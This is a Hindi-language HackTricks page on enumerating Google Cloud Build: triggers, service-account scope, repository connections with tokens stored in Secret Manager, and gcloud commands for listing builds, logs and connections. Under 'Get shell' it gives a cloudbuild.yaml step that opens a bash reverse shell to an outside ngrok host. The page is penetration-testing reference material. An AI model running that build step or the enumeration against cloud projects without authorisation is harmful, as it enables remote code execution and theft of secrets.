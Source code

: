 # GCP - Cloud Build Enum

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## मूल जानकारी

Google Cloud Build एक प्रबंधित CI/CD प्लेटफॉर्म है जो **सॉफ्टवेयर बिल्ड** और रिलीज प्रक्रियाओं को **स्वचालित करता है**, **सोर्स कोड रिपोजिटरीज** के साथ एकीकृत होता है और विभिन्न प्रोग्रामिंग भाषाओं का समर्थन करता है। यह **डेवलपर्स को कोड को बिल्ड, टेस्ट और स्वचालित रूप से डिप्लॉय करने की अनुमति देता है** और बिल्ड स्टेप्स और वर्कफ्लोज को कस्टमाइज़ करने की लचीलापन प्रदान करता है।

प्रत्येक Cloud Build Trigger **एक Cloud Repository से संबंधित होता है या सीधे एक बाहरी रिपोजिटरी से जुड़ा होता है** (Github, Bitbucket और Gitlab).

{% hint style="success" %}
मैंने यहाँ से या Cloud Repositories से Github/Bitbucket टोकन चुराने का कोई तरीका नहीं देखा क्योंकि जब रिपो डाउनलोड की जाती है तो इसे [https://source.cloud.google.com/](https://source.cloud.google.com/) URL के माध्यम से एक्सेस किया जाता है और Github क्लाइंट द्वारा एक्सेस नहीं किया जाता है।
{% endhint %}

### इवेंट्स

Cloud Build निम्नलिखित परिस्थितियों में ट्रिगर किया जा सकता है:

* **एक ब्रांच में पुश**: ब्रांच का विवरण दें
* **नया टैग पुश करें**: टैग का विवरण दें
* **पुल रिक्वेस्ट**: PR प्राप्त करने वाली ब्रांच का विवरण दें
* **मैन्युअल इनवोकेशन**
* **Pub/Sub संदेश:** विषय का विवरण दें
* **वेबहुक इवेंट**: एक HTTPS URL प्रदर्शित करेगा और अनुरोध को एक गुप्त के साथ प्रमाणित किया जाना चाहिए

### निष्पादन

तीन विकल्प हैं:

* yaml/json **जिसमें निष्पादित करने के लिए आदेश निर्दिष्ट होते हैं**। आमतौर पर: `/cloudbuild.yaml`
* केवल एक जिसे वेब कंसोल और cli में "इनलाइन" निर्दिष्ट किया जा सकता है
* सबसे आम विकल्प
* अप्रमाणित पहुंच के लिए प्रासंगिक
* **Dockerfile** बिल्ड करने के लिए
* **Buildpack** बिल्ड करने के लिए

### SA अनुमतियाँ

**सर्विस अकाउंट के पास `cloud-platform` स्कोप होता है**, इसलिए यह **सभी विशेषाधिकारों का उपयोग कर सकता है।** यदि **कोई SA निर्दिष्ट नहीं किया गया है** (जैसे कि सबमिट करते समय) तो **डिफ़ॉल्ट SA** `<proj-number>@cloudbuild.gserviceaccount.com` का **उपयोग किया जाएगा।**

डिफ़ॉल्ट रूप से कोई अनुमतियाँ नहीं दी जाती हैं लेकिन इसे कुछ अनुमतियाँ देना काफी आसान है:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### अनुमोदन

Cloud Build को बिल्ड निष्पादनों के लिए **अनुमोदन की आवश्यकता होने के लिए कॉन्फ़िग किया जा सकता है** (डिफ़ॉल्ट रूप से अक्षम).

### कनेक्शन्स और रिपोजिटरीज

कनेक्शन्स निम्नलिखित के माध्यम से बनाए जा सकते हैं:

* **GitHub:** यह एक OAuth प्रॉम्प्ट दिखाएगा जो **एक Github टोकन प्राप्त करने के लिए अनुमतियाँ मांगेगा** जिसे **Secret Manager के अंदर संग्रहीत किया जाएगा।**
* **GitHub Enterprise:** यह एक **GithubApp** स्थापित करने के लिए कहेगा। आपके GitHub Enterprise होस्ट से एक **प्रमाणीकरण टोकन** बनाया जाएगा और इस प्रोजेक्ट में एक S**ecret Manager** गुप्त के रूप में संग्रहीत किया जाएगा।
* **GitLab / Enterprise:** आपको **API एक्सेस टोकन और Read API एक्सेस टोकन प्रदान करना होगा** जिसे **Secret Manager में संग्रहीत किया जाएगा।**

एक बार कनेक्शन उत्पन्न हो जाने के बाद, आप इसे उन रिपोजिटरीज से जोड़ने के लिए उपयोग कर सकते हैं जिन तक Github अकाउंट की पहुँच है।

यह विकल्प बटन के माध्यम से उपलब्ध है:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
ध्यान दें कि इस विधि से जुड़ी रिपोजिटरीज **केवल 2nd जनरेशन का उपयोग करने वाले Triggers में उपलब्ध हैं।**
{% endhint %}

### रिपोजिटरी कनेक्ट करें

यह **`कनेक्शन`** के समान नहीं है। यह **विभिन्न** तरीकों से **Github या Bitbucket** रिपोजिटरी तक पहुँच प्राप्त करने की अनुमति देता है लेकिन **कनेक्शन ऑब्जेक्ट उत्पन्न नहीं करता है, लेकिन यह एक रिपोजिटरी ऑब्जेक्ट (1st जनरेशन) उत्पन्न करता है।**

यह विकल्प बटन के माध्यम से उपलब्ध है:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### स्टोरेज

कभी-कभी Cloud Build **ट्रिगर के लिए फाइलों को स्टोर करने के लिए एक नया स्टोरेज उत्पन्न करेगा**। यह उदाहरण के लिए GCP के साथ होता है:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
एक Storage bucket जिसका नाम [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) है, उसे `.tgz` फाइलों को संग्रहित करने के लिए बनाया गया है जिनका उपयोग किया जाना है।

### Get shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### सूचीकरण

आप **build configs और logs में संवेदनशील जानकारी पा सकते हैं**।
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### विशेषाधिकार वृद्धि

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### अप्रमाणित पहुँच

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### पोस्ट एक्सप्लोइटेशन

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
